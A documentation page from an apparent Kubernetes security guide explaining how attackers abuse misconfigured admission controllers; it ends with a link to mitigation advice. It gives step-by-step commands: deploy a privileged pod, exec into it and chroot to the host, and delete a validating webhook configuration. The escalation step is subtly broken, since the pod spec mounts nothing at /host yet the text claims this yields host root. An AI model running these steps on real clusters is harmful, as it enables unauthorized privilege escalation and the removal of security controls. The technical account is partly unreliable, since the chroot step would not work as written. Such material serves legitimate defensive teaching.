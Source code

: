 ```yaml
---
sidebar_position: 7
title: "Misconfigured Admission Controllers"
description: "How attackers exploit misconfigured Kubernetes Admission Controllers to bypass security policies and escalate privileges."
---
```


# Misconfigured Admission Controllers

**Admission Controllers** act as gatekeepers in Kubernetes, **validating or modifying API requests** before they are persisted. If **misconfigured**, attackers can bypass security policies, deploy unauthorized workloads, and escalate privileges.

---

## Exploitation Steps: Bypassing Kubernetes Admission Controls

An attacker exploits misconfigured **admission controllers** to run privileged or malicious workloads.

### Step 1: Identify Weak Admission Controller Settings

The attacker checks if any admission controllers are misconfigured or disabled:

```bash
kubectl api-versions | grep admissionregistration.k8s.io
```

If key admission controllers (e.g., **PodSecurity, ValidatingWebhookConfiguration**) are missing or misconfigured, the attacker proceeds.

### Step 2: Deploy a Privileged Pod

If **no admission controller enforces security policies**, the attacker creates a privileged pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: exploit-pod
spec:
  containers:
    - name: attacker-container
      image: alpine
      securityContext:
        privileged: true
```

```bash
kubectl apply -f exploit-pod.yaml
```

### Step 3: Escalate Privileges

If no **Validating Admission Controller** blocks it, the attacker gains root access on the host:

```bash
kubectl exec -it exploit-pod -- /bin/sh
chroot /host bash
```

### Step 4: Modify Cluster Policies

If an attacker has access to modify webhooks, they can disable security restrictions:

```bash
kubectl delete validatingwebhookconfiguration security-webhook
```

### Result

The attacker now has **root access** to the Kubernetes node and can **modify cluster-wide security settings**, potentially **disabling future defenses**.

---

## Mitigation Steps

To protect against **misconfigured admission controllers**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Admission Controllers](/docs/best_practices/cluster_setup_and_hardening/misconfigured_admission_controllers_mitigation)**

This guide covers techniques such as **enforcing failure policies, securing webhooks with RBAC, monitoring changes, and restricting admission controller access** to prevent security bypasses.
